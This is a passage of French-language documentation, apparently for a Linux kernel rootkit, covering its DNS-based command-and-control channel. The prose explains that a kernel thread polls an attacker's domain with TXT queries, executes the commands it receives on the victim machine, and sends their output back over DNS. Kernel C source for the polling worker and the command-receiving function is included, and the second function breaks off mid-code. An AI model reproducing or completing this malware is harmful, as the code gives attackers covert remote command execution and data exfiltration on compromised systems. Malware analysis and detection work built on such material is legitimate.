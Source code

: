 ### 3.3 🎯 Commandes

#### 3.3.1 Worker

Par ailleurs, le fichier dns/worker.c contient un thread noyau dédié à la gestion continue des paquets DNS, en particulier à la réception des commandes. Ce thread exécute une boucle principale qui interroge régulièrement le serveur attaquant pour récupérer des instructions. Il est responsable des opérations suivantes :
- Interroger périodiquement l’attaquant via une requête TXT vers `command.DNS_DOMAIN`.
- Si l’attaquant a mis une commande en attente, il la renvoie dans le champ TXT de la réponse.
- Le rootkit sur la victime exécute cette commande.
- Il renvoie ensuite la sortie de la commande (stdout/stderr/status) vers l’attaquant en utilisant `dns_send_data` dans `send_to_server()` dans network.c.

```c
static int dns_worker(void *data) {
  char cmd_buf[RCV_CMD_BUFFER_SIZE / 2];

  while (!kthread_should_stop()) {
    int len = dns_receive_command(cmd_buf, sizeof(cmd_buf));
      if (len > 0) {
  
        // Send the command to the command handler
        rootkit_command(cmd_buf, len + 1, DNS);
      }

      // Sleep for a defined interval to avoid busy-waiting
      msleep(DNS_POLL_INTERVAL_MS);
  }

  return 0;
}
```

#### 3.3.2 Réception

L’interprétation de la commande reçue via une requête **TXT** dans le *worker* est assurée par la fonction `dns_receive_command()`. Comme évoqué précédemment, cette fonction s’appuie sur `dns_send_query`, un *wrapper* générique chargé d’émettre la requête DNS. Une fois la requête envoyée, la victime lit la réponse brute dans le buffer `response_buffer_local`. Elle en extrait ensuite le contenu textuel situé dans la section *Answer TXT* du paquet DNS. La fonction `dns_receive_command` copie cette chaîne dans `cmd_buf` (via le paramètre `out_buffer`) et retourne la longueur du texte extrait.
```c
int dns_receive_command(char *out_buffer, size_t max_length) {
  char *poll_qname;
  u8 *response_buffer_local;
  int response_length_local;
  int result;
  struct dns_header_t *hdr;
  u16 answer_count;
  int offset;

  // Allocate local response buffer
  response_buffer_local = kzalloc(DNS_MAX_BUF, GFP_KERNEL);
  if (!response_buffer_local)
    return -ENOMEM;

  // Build the TXT-poll query name
  poll_qname = kmalloc(128, GFP_KERNEL);
  snprintf(poll_qname, 128, "command.%s", DNS_DOMAIN);

  // Send TXT query and get raw response
  result = dns_send_query(poll_qname, htons(16), response_buffer_local, &response_length_local);
  kfree(poll_qname);
  if (result < 0) {
```